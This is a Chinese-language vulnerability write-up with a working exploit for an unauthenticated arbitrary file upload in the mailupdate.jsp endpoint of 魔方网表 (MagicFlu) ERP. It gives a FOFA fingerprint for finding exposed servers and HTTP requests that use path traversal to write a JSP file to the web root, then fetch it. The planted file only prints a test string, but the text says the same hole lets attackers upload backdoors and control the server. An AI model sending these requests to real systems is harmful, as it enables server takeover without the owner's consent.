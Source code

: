 # 魔方网表mailupdate接口存在任意文件上传漏洞

# 一、漏洞简介
魔方网表是一款基于web浏览器的通用信息管理软件，魔方网表ERP 存在任意文件上传漏洞，未经身份验证的攻击者可以利用此漏洞上传恶意后门文件 ，控制服务器权限

# 二、影响版本
+ 魔方网表

# 三、资产测绘
+ fofa`<font style="color:rgb(63, 63, 63);">icon_hash="694014318"</font>`
+ <font style="color:rgb(63, 63, 63);">特征</font>

![1713198631042-1ecb3376-f689-4f92-a0fc-8722c6de5d26.png](./img/fcGeBck8qqEaERf7/1713198631042-1ecb3376-f689-4f92-a0fc-8722c6de5d26-935968.png)

# 四、漏洞复现
```java
GET /magicflu/html/mail/mailupdate.jsp?messageid=/../../../test1.jsp&messagecontent=%3C%25+out.println%28%22tteesstt1%22%29%3B%25%3E HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 
```

![1713198660976-8be544e1-30c0-4c5d-82c6-ce893cd8d981.png](./img/fcGeBck8qqEaERf7/1713198660976-8be544e1-30c0-4c5d-82c6-ce893cd8d981-189341.png)

文件上传位置

```java
GET /magicflu/test1.jsp HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 
```

![1713198689517-129760d5-4911-439f-9c06-03e28e38c489.png](./img/fcGeBck8qqEaERf7/1713198689517-129760d5-4911-439f-9c06-03e28e38c489-361593.png)



> 更新: 2024-04-17 14:59:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lb3k53eifkairogb>
